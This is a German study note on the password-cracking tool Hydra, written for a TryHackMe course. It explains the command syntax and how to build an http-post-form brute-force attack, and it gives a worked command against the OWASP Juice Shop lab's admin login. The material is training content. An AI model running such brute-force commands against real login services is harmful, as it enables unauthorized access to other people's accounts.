



# Hydra
Angelegt Samstag 22 Oktober 2022

Beschreibung
------------

* Bricht Anmelde-Prozesse, dh. man kann ``hydra`` verwenden, wenn man Nutzernamen oder Passwort hat, um das Gegenstück über entsprechende Wortlisten (es gibt auch welche für Nutzernamen) herauszufinden.
* Für Passwort-Hashes am besten [:Linux:TryHackMe:Werkzeuge:**JohnTheRipper**](./JohnTheRipper.md) verwenden

### Beispiel
Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more.
Beispiel

``hydra -t 4 -l NUTZER -P /usr/share/wordlists/WORDLIST -vV IP PROTOKOLL``

#### Klassische Login-Seite

* [How to use Hydra to brute force login pages − YouTube](https://www.youtube.com/watch?v=2tJgPyRITGc)

* Mit der Hilfe von [:Linux:TryHackMe:Werkzeuge:**Burp Suite**](./Burp_Suite.md) oder dem Seitenquelltext kann man per *Hydra* auch diese Passwörter brechen.
	* Im Seitenquelltext kann man evtl. jeweils das ``HTTP-name``-Attribut bzw. die ``form``-Datenfelder, das Ziel der Anfrage finden und das Protokoll/die Methode finden
	* In [:Linux:TryHackMe:Werkzeuge:**Burp Suite**](./Burp_Suite.md) sieht man die Anfrage und kann so ggfl. die entsprechenden Felder finden (das Ziel der Anfrage sowieso)

Ziel: ``10.10.81.91``
Pfad-Argumente: ``/rest/user/login``
Methode: ``POST``
``form``-Daten: ``email`` & ``password``
Ein Angriffsvektor sieht wie folgt aus:
``hydra -l NUTZERNAME -P WORTLISTE http-post-form://10.10.81.91/rest/user/login:"email=^USER^&password=^PASS^":TRIGGER``

* ``^USER^`` Stelle an die der per ``-l`` spezifizierte ``NUTZERNAME`` gesetzt wird
* ``^PASS^`` Analog zu ``^USER^``
* ``TRIGGER`` Indikator, ob Anfrage klappte oder scheiterte.
	* In den meisten Fällen hat man Informationen darüber, dass die eingegebenen Daten falsch waren, da dann eine Fehlermeldung auftritt. Ein Wort aus dieser kann bspw. als ``TRIGGER`` verwendet werden.

Aus [OWASP Juice Shop, Task 4 − TryHackMe](https://tryhackme.com/room/owaspjuiceshop):
``hydra -l admin@juice-sh.op -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt http-post-form://10.10.81.91/rest/user/login:"email=^USER^&password=^PASS^":"Invalid"``

Installation
------------

* Soweit ich weiß nur über [Hydra − github](https://github.com/vanhauser-thc/thc-hydra)

